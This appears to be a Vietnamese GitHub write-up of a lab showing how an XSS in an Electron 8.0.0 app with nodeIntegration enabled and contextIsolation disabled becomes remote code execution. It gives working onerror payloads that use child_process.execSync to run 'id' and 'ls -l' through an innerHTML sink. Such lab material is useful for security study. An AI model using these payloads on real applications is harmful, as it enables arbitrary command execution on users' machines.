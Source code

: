 # RCE-to-XSS-Electron-8.0.0


Ứng dụng Electron 8.0.0 là một phiên bản cũ của Electron, được sử dụng để xây dựng các ứng dụng desktop chéo nền tảng (cross-platform) bằng công nghệ web như JavaScript, HTML và CSS. 

Mặc dù mang lại nhiều lợi ích bằng việc cho phép phát triển các ứng dụng desktop ngang hàng với web bằng JavaScript, HTML, và CSS, nhưng cũng tiềm ẩn rủi ro về bảo mật, cụ thể là lỗ hổng XSS đến RCE (Remote Code Execution).

Tổng quan : XSS to RCE

Setup 

  Sử dụng Electron 8.0.0 open source 
  
  URL Download : https://github.com/standardnotes/desktop/archive/v2.0.0.tar.gz
 
  Commands
```
wget https://github.com/standardnotes/desktop/archive/v2.0.0.tar.gz
tar xvfz v2.0.0.tar.gz
cd desktop-2.0.0/
npm audit
```
![1](https://github.com/Lilly-dox/Exploit-CVE-2023-22518/assets/130746941/47051781-9a54-4831-8142-e6b165d3b16c)

Chúng ta nhận được output :
```
npm ERR! code ENOLOCK
npm ERR! audit This command requires an existing lockfile.
npm ERR! audit Try creating one first with: npm i --package-lock-only
npm ERR! audit Original error: loadVirtual requires existing shrinkwrap file

npm ERR! A complete log of this run can be found in:
npm ERR!     /home/lilly-dox/.npm/_logs/2024-03-20T15_39_01_845Z-debug-0.log
```
Như lỗi trên hiển thị, chúng ta phải tạo tệp pack-lock.json, sử dụng lệnh được cung cấp trong báo lỗi để xử lý 
```
npm i --package-lock-only
```
sau đó chạy lại command :
```
npm audit
```
![2](https://github.com/Lilly-dox/RCE-to-XSS-Electron-8.0.0/assets/130746941/cd2349ca-7629-42b6-bbe5-6d69c97d7425)

XSS to RCE
Download the first vulnerability file :
<file vulnerable1.zip>

File : 
vulnerable1/main.js
![3](https://github.com/Lilly-dox/RCE-to-XSS-Electron-8.0.0/assets/130746941/4a7efd61-c551-4b04-9c42-72ebdbd4222f)

Như đã thấy :
1. `nodeIntegration` được bật (`nodeIntegration: true`)**:
    - nodeIntegration được bật, trang web có thể tự do sử dựng các module Node.js. Mặc dù việc kích hoạt tính năng này có thể thuận tiện cho các nhà phát triển nhưng nó làm tăng đáng kể rủi ro bảo mật. Nếu kẻ tấn công khai thác lỗ hổng XSS (Cross-Site Scripting) trong ứng dụng, chúng có thể sử dụng API Node.js để thực hiện các hành động độc hại trên hệ thống của người dùng, chẳng hạn như đọc/ghi tệp hoặc thực thi lệnh, dẫn đến Mã từ xa Lỗ hổng thực thi (RCE).
2. `contextIsolation` bị tắt (`contextIsolation: false`)**:
    - contextIsolation là  Là một tính năng bảo mật khác của Electron, phân cách môi trường giữa các mã nguồn được thực thi trong renderer. Nếu contextIsolation bị tắt, nó giúp mã độc có khả năng truy cập vào các APIs và mở đường cho RCE nếu người dùng bị tấn công XSS.

Chúng ta sẽ lợi dụng sự tự do truy cập các API Node.js

Nói qua 1 xíu về API Node.js
API Node.js là môi trường thực thi code Javascript phía server máy chủ . sử dụng V8 engine, engine Javascript cùng một loạy các API tích hợp để cung cấp CHỨC NĂNG TƯƠNG TÁC VỚI HỆ ĐIỀU HÀNH hơn là chỉ chạy trong môi trường trình duyệt thông thường nhưu javascript .

Module thường xuyên bị attacker lợi dụng , nhất là khi API Node.js được dùng trong một môi trường với ít các biện pháp bảo mật , như là Electron khi ‘nodeIntegration’ <nút tích hợp> được bật . Các module thường bị lợi dụng là:
1.	Child_process : module cho pháp thực thi lệnh hệ thống hoặc các chương trình khác . Đại loại là child_process sẽ được lợi dụng để chạy shell .
2.	fs ( File system ) : lợi dụng để chỉnh sửa xóa , thêm file tùm lum . Cài phần mêm độc hại như file upload 
3.	‘net’ và ‘dgram’ : chiếm quyền tương tác với giao thực mạng TCP , UDP -> mở kết nối mạng độc hại hoặc thực hiện Dos
4. **`vm`**: Đây là một module cho phép bạn thực thi JavaScript trong một context ảo. Nó có thể bị lợi dụng để chạy mã độc trong một môi trường tưởng chừng được cô lập.
    5. **`os` và `path`**: Mặc dù ít nguy hiểm hơn các module khác, nhưng khi được kết hợp với các module như `fs`, chúng có thể được sử dụng để xây dựng các đường dẫn đến các tệp tin quan trọng hoặc thu thập thông tin về hệ thống mục tiêu.
=> Sử dụng suyntax của API Node.js để khai thác

Chúng ta sẽ ứng dụng và giải thích luôn 1 payload điển hình : 
```
<img src=x onerror="alert(require('child_process').execSync('id').toString());">
```
1.	<img src=x : đoạn script này bắt đầu định nghĩa HTML image element.
Gán cho src=x nghĩa là không phải đường dân ảnh source ảnh hợp lệ . Nên đương nhiên sẽ kích hoạt sang onerror <đây là cố tình không điền src hợp lệ để điều hướng thực thi qua onerror >
2.	onerror= : đây là thuộc tính xử lí được kích hoạt khi src không hợp lệ
3.	alert(require(‘child_process’).execSync(‘id’).toString()); : Code Javascript này được thực thi do sự kiện onerror . 
*  Phần require(‘child_process’).execSync(‘id’) là lệnh Node.js sử dụng module child_process để thực thi lệnh hệ thống (system command) ‘id’ , lệnh này sẽ output ID của nhóm và người dùng thực (real and effective user and group IDs)
*  Phương thức execSync có nghĩa là thực thi lệnh một cách đồng bộ
execSync (viết tắt của executes synchronnously : thực thi đồng bộ). Nghĩa là nó sẽ chặn việc thực thi tiếp theo cho đến khi lệnh hệ thống (system command) trả về kết quả . 
Lệnh ‘id’ trả về thông tin về người dùng hiện tại như là ID người dùng (uid), ID nhóm (gid) và bất kì thành viên nhóm nào .

* Phương thức .toString() : chuyển đổi đầu ra của lệnh từ bộ đệm thành biểu diễn chuỗi (from buffer to a string representation)

* alert() là phương thức javascript tiêu chuẩn để hiển thị hộp thoại cánh báo với nội dung được chỉ định

File:
renderer.js

 ![4](https://github.com/Lilly-dox/RCE-to-XSS-Electron-8.0.0/assets/130746941/fe5546a0-8657-437a-b3b6-1167166ac820)


 Nhận diện có innerHTML sink -> DOM XSS in innerHTML sink 

Khai thác :
 Dựng vulnerable1 lên để khai thác
 Commands:
 ```
 cd /path/to/vulnerable1
 npm install
 npm start
```
![5](https://github.com/Lilly-dox/RCE-to-XSS-Electron-8.0.0/assets/130746941/0fde2e41-b063-472b-a976-925dadbc6806)

Sau khi start :

![6](https://github.com/Lilly-dox/RCE-to-XSS-Electron-8.0.0/assets/130746941/4041753a-dbf7-4d33-b79c-6fdf1b70ca78)

Payloads :
```
test <img src=x onerror=alert("XSS")>
```
![7](https://github.com/Lilly-dox/RCE-to-XSS-Electron-8.0.0/assets/130746941/57a12b6f-4691-46f8-8841-f3f067992d80)

```
<img src=x onerror="alert(require('child_process').execSync('id').toString());"> 
```
![8](https://github.com/Lilly-dox/RCE-to-XSS-Electron-8.0.0/assets/130746941/901d21ef-5400-4c16-955f-d063213abd26)

```
<img src=x onerror="alert(require('child_process').execSync('ls -l').toString());">
```
![9](https://github.com/Lilly-dox/RCE-to-XSS-Electron-8.0.0/assets/130746941/e0859aa1-ac5e-4189-ad9f-77f706a640d1)




